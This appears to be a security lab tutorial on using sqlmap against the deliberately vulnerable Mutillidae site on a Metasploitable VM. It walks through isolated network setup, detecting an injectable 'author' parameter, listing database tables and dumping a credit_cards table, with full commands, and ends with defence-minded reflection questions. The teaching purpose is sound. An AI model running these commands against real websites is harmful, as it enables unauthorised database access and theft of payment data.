





= SQL Injection with SQLMap

== Prerequisites

* Kali VM installed
* Metasploitable VM installed

== VM Configuration

Ensure that the Kali VM is configured properly.

* In VirtualBox, ensure that the network adapter is set to `internal network`.
* Give it the IP address `192.168.2.50`
+
```
ifconfig eth0 192.168.2.50
```

Ensure that the Metasploitable VM is configured properly.

* In VirtualBox, ensure that the network adapter is set to `internal network`.
* Give it the IP address `192.168.2.100`.
+
```
sudo ifconfig eth0 192.168.2.100
```
+
Enter `msfadmin` as the password when prompted.

Ensure that you can ping between the two virtual machines before proceeding.

== Configuring Metasploitable

The Mutillidae website must be configured to point to the OWASP 10 database. To change the configuration, run the following commands from the Metasploitable terminal.

```
cd /var/www/mutillidae
sudo nano config.inc
```

Change the database name to `osasp10` and save the file.



== Using SQLMap to Verify SQL Injection Vulnerabilities

The remainder of the instructions will be done in your Kali VM.

Open Iceweasel and to go the page http://192.168.2.100/mutillidae/index.php?page=view-someones-blog.php. Note that the page has a dropdown where an author can be selected. Even though the dropdown does not allow free text to be entered, it still contains values that will be sent to the database. Because the page accepts user input that is likely sent to a database, it is potentially vulnerable to SQL injection. Typically, you would do an investigation to determine whether a variable might be vulnerable to SQL injection. For example, you might use the Burp Suite to analyze and requests sent to the server. For now, assume that the investigation has been done and the author variable has been determine to be a potentially exploitable variable.

SQLMap comes installed in Kali by default. Run the following command. (Copy and paste as needed. the `\` character is a line continuation character designed to make the command easier to copy. If you are typing the command, this character is not necessary.)

```
sqlmap -u \
"http://192.168.2.100/mutillidae/index.php?page=view-someones-blog.php" \
--data="author=admin&view-someones-blog-php-submit-button=View+Blog+Entries"
```

* The `-u` parameter just passes a URL.
* The `--data` parameter has additional HTTP variables with their values.

Notice that SQLMap finds variables that are potentially vulnerable.



SQLMap correctly identifies the database as a MySQL database, so enter `y` to skip the other tests.

After further tests, SQLMap finds a vulnerability.



Press `n` to skip testing the other variables.

== Using SQLMap to Exploit Vulnerabilities

Once a vulnerability has been found, it can be exploited. Append `-D owasp10 --tables` to the previous command and run it. The full command will be:

```
sqlmap -u \
"http://192.168.2.100/mutillidae/index.php?page=view-someones-blog.php" \
--data="author=admin&view-someones-blog-php-submit-button=View+Blog+Entries" \
-D owasp10 --tables
```

* The `-D` command specifies the database that should be accessed.
* The `--tables` parameter tells SQL map to output all of the tables in the database.

You should see a list of all of the tables in the database. This is definitely information that a website developer would not want expose to the public.



Interestingly, there is a `credit_cards` table. Run the following command to view the data in that table.

```
sqlmap -u \
"http://192.168.2.100/mutillidae/index.php?page=view-someones-blog.php" \
--data="author=admin&view-someones-blog-php-submit-button=View+Blog+Entries" \
-D owasp10 -T credit_cards --dump
```

* The `-T` parameter specifies a database table to access.
* The `--dump` parameter outputs the data to the terminal.



== Challenge

* Use the Burp Suite to find other potential vulnerabilities on the Mutillidae website. Verify the vulnerabilities using SQLMap.

== Reflection

* From a defense in depth perspective, how could these attacks have been prevented?
* How would you use SQLMap when assessing a very large website with a lot of functionality?
